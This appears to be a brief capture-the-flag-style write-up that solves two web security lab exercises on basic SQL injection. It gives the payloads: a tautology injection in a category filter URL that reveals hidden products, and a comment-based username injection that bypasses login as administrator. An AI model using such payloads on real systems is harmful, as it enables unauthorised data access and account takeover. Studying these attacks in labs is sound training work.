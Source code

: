 # Basic SQL Injection

## **Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

### *To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.*

`GET /filter?category=Lifestyle'+OR+1=1--`

## **Lab: SQL injection vulnerability allowing login bypass**

### *To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user.*

`Username: Administrator'--`
